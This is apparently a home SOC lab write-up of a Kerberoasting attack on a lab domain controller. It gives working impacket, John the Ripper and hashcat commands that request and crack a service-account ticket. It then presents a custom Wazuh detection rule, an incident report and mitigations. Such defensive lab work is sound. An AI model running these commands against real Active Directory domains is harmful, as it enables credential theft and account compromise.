






# Scenario 02 — Kerberoasting → Offline Crack → Custom Detection Rule

> **MITRE ATT&CK:** [T1558.003 — Steal or Forge Kerberos Tickets: Kerberoasting](https://attack.mitre.org/techniques/T1558/003/)
> **Tactic:** Credential Access
> **Target:** DC01 (192.168.56.10) — domain controller, `corp.lab`
> **Service account attacked:** `svc_sql` (SPN `MSSQLSvc/sqlserver.corp.lab:1433`)
> **Attacker:** KALI (192.168.56.100), authenticated as `jan.kowalski`

---

## 1. Summary

Kerberoasting abuses a normal feature of Active Directory: **any authenticated
domain user** can request a Kerberos service ticket (TGS) for **any account that
has a Service Principal Name (SPN)**. That ticket is encrypted with the service
account's password hash — so an attacker can request it, take it offline, and
brute-force the password without ever touching the account or tripping a lockout.

In this scenario the attacker, authenticated as the low-privilege user
`jan.kowalski`, requested a TGS for the service account `svc_sql`, cracked it
offline to recover the plaintext password, and the activity was caught by a
**custom Wazuh rule** written specifically to detect Kerberoasting.

This is one of the most common AD attacks in real environments and a frequent
SOC interview topic.

---

## 2. Attack (from Kali)

### Recon — confirm Kerberos is reachable on the DC

```bash
nmap -p 88,389,445 192.168.56.10
# 88/tcp  open  kerberos-sec
# 389/tcp open  ldap
# 445/tcp open  microsoft-ds
```

### Request the service ticket (the Kerberoast)

Authenticated as `jan.kowalski`, ask the DC for any SPN accounts and request
their tickets:

```bash
impacket-GetUserSPNs corp.lab/jan.kowalski:'Password123' -dc-ip 192.168.56.10 -request -outputfile /tmp/kerb_hash.txt
```

Impacket found the SPN account and returned a TGS hash:

```
ServicePrincipalName              Name     ...
MSSQLSvc/sqlserver.corp.lab:1433  svc_sql

$krb5tgs$23$*svc_sql$CORP.LAB$corp.lab/svc_sql*$bf879b52...c66562
```



*`impacket-GetUserSPNs` authenticated as `jan.kowalski`, found the `svc_sql` SPN, and returned the `$krb5tgs$` hash.*

### Crack the ticket offline

A small targeted wordlist was used for a fast, clean demo (the detection is
independent of how the hash is cracked — cracking happens entirely offline and
generates **no** network traffic):

```bash
echo -e "password\nSummer2024\nWelcome1\nP@ssw0rd\nSql2024\nSummerSql2024" > /tmp/kerb_wordlist.txt
```

**With John the Ripper:**

```bash
john --format=krb5tgs --wordlist=/tmp/kerb_wordlist.txt /tmp/kerb_hash.txt
john --show --format=krb5tgs /tmp/kerb_hash.txt
# ?:SummerSql2024
```



*John the Ripper recovers the service account password: `SummerSql2024`.*

**With hashcat** (mode 13100 = Kerberos 5 TGS-REP; `-D 1` forces CPU in the VM):

```bash
hashcat -m 13100 /tmp/kerb_hash.txt /tmp/kerb_wordlist.txt --force -D 1
# Status: Cracked  →  ...:SummerSql2024
```





*hashcat cracks the same hash (output shown in two parts) — ending with `Status: Cracked` and the recovered password `SummerSql2024`.*

**Result:** the service account password is **`SummerSql2024`**. The attacker now
holds valid credentials for `svc_sql` without ever logging into it.

---

## 3. What it looks like in the logs

Requesting the ticket generates **Windows Event ID 4769** ("A Kerberos service
ticket was requested") on the **domain controller**. The tell-tale signs of
Kerberoasting in that event:

| Field | Value here | Why it matters |
| --- | --- | --- |
| `ServiceName` | **svc_sql** | a *service account* is being targeted, not a normal resource |
| `TicketEncryptionType` | **0x17 (RC4)** | attackers force weak RC4 because it cracks far faster than AES |
| `TargetUserName` | jan.kowalski@CORP.LAB | a low-priv user requesting a service ticket |
| `IpAddress` | ::ffff:192.168.56.100 | the attacker host (KALI) |



*The raw Event 4769 — `ServiceName: svc_sql`, `Ticket Encryption Type: 0x17` (RC4), client address `192.168.56.100` (KALI).*

### Important detection nuance (learned hands-on)

Normal Kerberos traffic *also* produces 4769 events — but for the `krbtgt`
service and computer accounts, using **AES (0x12)**. The combination that signals
an attack is **a named service account + RC4 (0x17)**. A SOC analyst has to tell
this signal apart from the constant background noise of legitimate 4769s.

**Two prerequisites had to be in place for this to be visible:**

1. Audit policy for Kerberos ticket operations enabled on the DC:
   ```powershell
   auditpol /set /subcategory:"Kerberos Service Ticket Operations" /success:enable /failure:enable
   ```
2. The Wazuh agent installed on **DC01** (the ticket is issued by the DC, so the
   event only exists there — not on the workstation).

---

## 4. Detection logic — custom Wazuh rule

Out of the box, Wazuh ingests the 4769 event but does **not** raise a
Kerberoasting-specific alert. So a custom rule was written to flag the dangerous
combination (4769 + RC4) and map it to MITRE. Stored in
[`/wazuh-rules/local_rules.xml`](../../wazuh-rules/local_rules.xml):

```xml
<group name="local,kerberoasting,">

  <rule id="100100" level="12">
    <if_sid>60103</if_sid>
    <field name="win.system.eventID">^4769$</field>
    <field name="win.eventdata.ticketEncryptionType">^0x17$</field>
    <description>Possible Kerberoasting: TGS request with weak RC4 encryption for service $(win.eventdata.serviceName) by $(win.eventdata.targetUserName)</description>
    <mitre>
      <id>T1558.003</id>
    </mitre>
  </rule>

</group>
```

After reloading the manager (`systemctl restart wazuh-manager`) and re-running the
attack, the rule fired:

```
Rule 100100 (level 12):
Possible Kerberoasting: TGS request with weak RC4 encryption
for service svc_sql by jan.kowalski@CORP.LAB
```



*The Wazuh alert list showing multiple **level 12** hits from **custom rule 100100** — Kerberoasting detected.*

This is the heart of the scenario: not just running an attack, but **engineering
a detection** for it and validating that it fires.

---

## 5. Incident report (SOC L1 view)

| Field | Value |
| --- | --- |
| **Incident ID** | INC-2026-002 |
| **Severity** | High |
| **Detection time** | 2026-06-30 ~08:07 UTC |
| **Affected asset** | DC01 (192.168.56.10) — `corp.lab` |
| **Source / attacker** | KALI (192.168.56.100) |
| **Account used** | CORP\jan.kowalski (low-privilege) |
| **Target** | service account `svc_sql` (SPN MSSQLSvc) |
| **Triggered rule** | 100100 — Possible Kerberoasting (custom), level 12 |
| **Indicators (IoCs)** | Event 4769; ServiceName `svc_sql`; EncryptionType `0x17` (RC4); source 192.168.56.100 |

**What happened:** A low-privilege domain account requested a Kerberos service
ticket for the service account `svc_sql` using weak RC4 encryption — the classic
signature of Kerberoasting. The ticket can be cracked offline; in this case the
password (`SummerSql2024`) was recovered, fully compromising the service account.

**Recommended actions (L1 → L2):**

1. **Reset the `svc_sql` password** to a long, random value (25+ chars) and rotate
   regularly via a managed service account (gMSA).
2. **Disable RC4** for Kerberos in the domain — force AES only.
3. Investigate `jan.kowalski` — why did this account request a service ticket?
4. Review all accounts with SPNs; remove SPNs that are no longer needed.
5. Escalate to L2 to check whether the cracked credentials were used anywhere.

---

## 6. Lessons learned (defender's view)

- **Service account passwords must be long and random.** `SummerSql2024` cracked
  instantly. A 25+ character random password makes offline cracking infeasible.
- **Use Group Managed Service Accounts (gMSA)** — Windows manages a 120-character
  password automatically, defeating Kerberoasting.
- **Disable RC4** domain-wide and require AES — removes the weak-encryption path
  attackers rely on.
- **Detection is achievable and cheap:** a single custom rule on the 4769 +
  RC4 combination gives high-fidelity alerting for this very common attack.
- **You need the agent where the event lives.** The 4769 is created on the DC, so
  monitoring only the workstation would have missed this entirely.

---

<p align="center"><sub>Part of <a href="../../README.md">home-soc-lab</a> — attack &amp; detection scenarios.</sub></p>
